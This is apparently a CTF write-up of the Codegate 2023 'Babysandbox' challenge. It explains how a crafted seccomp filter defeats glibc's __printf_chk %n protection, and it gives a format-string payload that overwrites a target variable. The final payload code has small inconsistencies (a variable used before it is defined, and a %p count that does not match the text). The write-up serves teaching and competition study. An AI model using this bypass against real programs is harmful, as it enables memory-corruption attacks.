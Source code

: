 ```yaml
---
title: Babysandbox
date: 2023-07-09T01:52:07+03:00
description: Writeup for Babysandbox [Codegate Qualifs 2023]
author: zenbassi
tags:
- pwn
- misc
draft: true
---
```

___

## Challenge Description

Can't remember. ups

## Intuition

For this challenge we have the source code available, so looking at it we notice a few things.

Firstly, we notice that the first input is the length and the payload for a seccomp rule. Then we see that a first check is passed and `vuln` is called. We can provide a second input of maximum 256 bytes, which is used in a printf-like function. This looks like a classic string-format vulnerability.

```c
void vuln() {
    char input[0x100];
    memset(input, 0, sizeof(input));

    __printf_chk(1, "Let's check our mitigation ^_^\n");
    __printf_chk(1, "Protect : %p\n", &target);
    int res = read(0, input, sizeof(input) - 1);
    if (res < 0) {
        __printf_chk(1, "Functionality is broken T_T\n");
        return;
    }
    // We have a dangerous vulnerability here!
    __printf_chk(1, input); // <- string format vulnerability

    if (target == 0x1337) {
        __printf_chk(1, "Mitigation failed.. The flag has been exposed T_T\n");
        read_flag();
    }
    else {
        __printf_chk(1, "\nNow we are safe from memory corruption! Thank you ^_^\n");
    }
    return;
}
```

The issue is that `__printf_chk` is a hardened version of `printf` which
doesn't allow the use of `%n` to write to memory. We have to somehow bypass
this limitation in order to change the value in `target` to `0x1337`.


## Solution

The easiest way we found to generate seccomp payloads is to use `seccomp-tools`
[^1]. If we compile `return ALLOW` we get `\x06\x00\x00\x00\x00\x00\xFF\x7F`.
To make this a valid payload we prepend the 4-byte length and get
`\x08\x00\x00\x00\x06\x00\x00\x00\x00\x00\xff\x7f`. Sending this to the program 
passes the seccomp-loading phase, so we're good in that regard.

Now what? 

### The seccomp payload

We somehow have to bypass the check in `__printf_chk` and might be able to use
some seccomp rules to achieve this. Luckily, we found
[this](https://bruce30262.github.io/hxp-CTF-2017-hardened-flag-store/) [^2]
blog post, which pretty much does exactly what we need. Looking in the `glib`
implementation of `__printf_chk`, we see that the issue described in the blog
still exists. To find this, I just searched on
[codebrowser](https://codebrowser.dev/glibc/glibc/) for the error `*** %n in
writab...`.

```c
if ((mode_flags & PRINTF_FORTIFY) != 0)
{
    if (!readonly_format)
    {
        extern int __readonly_area (const void *, size_t)
    attribute_hidden;
        readonly_format
    = __readonly_area (format, ((STR_LEN (format) + 1)
                    * sizeof (CHAR_T)));
    }
    if (readonly_format < 0)
    __libc_fatal ("*** %n in writable segment detected ***\n");
}
```

It's clear that `__readonly_area` gets called and returns something lower than
0. The plan would be to return something greater than 0 to bypass the security
check. Looking at the `__readonly_area` implementation we see the following:

```c
  FILE *fp = fopen ("/proc/self/maps", "rce");
  if (fp == NULL)
    {
      /* It is the system administrator's choice to not have /proc
	 available to this process (e.g., because it runs in a chroot
	 environment.  Don't fail in this case.  */
      if (errno == ENOENT
	  /* The kernel has a bug in that a process is denied access
	     to the /proc filesystem if it is set[ug]id.  There has
	     been no willingness to change this in the kernel so
	     far.  */
	  || errno == EACCES)
	return 1;
      return -1;
    }
```

It's clear now that if we make `fopen` fail with `ENOENT` or `EACCESS` the
function will return 1, which will bypass the check we're concerned with.
This is achievable via seccomp rules:

```
A = sys_number
A != openat ? ok : next
A = args[1]
A &= 0xff
A == 0x47 ? ok : next
return ERRNO(13) # ERRNO(EACCES)
ok:
return ALLOW
```
Notice a few things:
1. We're looking for the `openat` syscall. We wasted a lot of time trying to
   catch an `open` syscal, but eventually thought of running our binary with
   `strace`. Only then we saw the it calls `openat`.
2. We also check the first argument of the `openat` call, which is the file
   name address. `0x47` is the last byte of the `FLAG_PATH` address.

### The string format exploit

We have to write `0x1337` to the address. The way we can to this is by using
the `%n` format modifier, which writes **the number of bytes written so** to the address given. However, we have to use some tricks in order to abuse this.

1. The first trick is to use `%{k}c` which prints a character given as argument
   but also pads it to the left with spaces until the number of outputted
   characters is equal to $k$.
2. In order to use `%n` with a given address, we first have to _consume_
   some arguments. We can do that using `%p`. Now the question is, how many
   arguments? 6 at least are taken from registers, which we have no control
   over. The following are taken from the stack, 8 bytes at a time (if we use
   `%p`), so we have to carefully align everything.

Our final payload looked like this:
```
x = 4771
seccomp_payload = b" \x00\x00\x00\x00\x00\x00\x00\x15\x00\x00\x04\x01\x01\x00\x00 \x00\x00\x00\x18\x00\x00\x00T\x00\x00\x00\xFF\x00\x00\x00\x15\x00\x01\x00G\x00\x00\x00\x06\x00\x00\x00\r\x00\x05\x00\x06\x00\x00\x00\x00\x00\xFF\x7F"
payload = p32(len(payload)) + seccomp_payload

payload += f'%{x}c%p.%p.%p.%p.%p.%p.%p.%p.%p.%p%naaa'.encode()
payload += p64(0x404088) # target address
```

The length of the given format string (excluding the target address) is exactly 40 bytes, meaning that we have to use 5 `%p`s to consume it all. In the end we append the target address to the payload so `%n` writes to it. `x` has to be adjusted according to how much characters are printed overall (can be easily done with gdb).

### Flag

`bestctf{.hidden_struggled_with_this_one}`

## References (in case you used [^footnotes] thingies)
[^1]: seccomp-tools: https://github.com/david942j/seccomp-tools
[^2]: 2017 HXP CTF - hardened flag writeup: https://bruce30262.github.io/hxp-CTF-2017-hardened-flag-store/
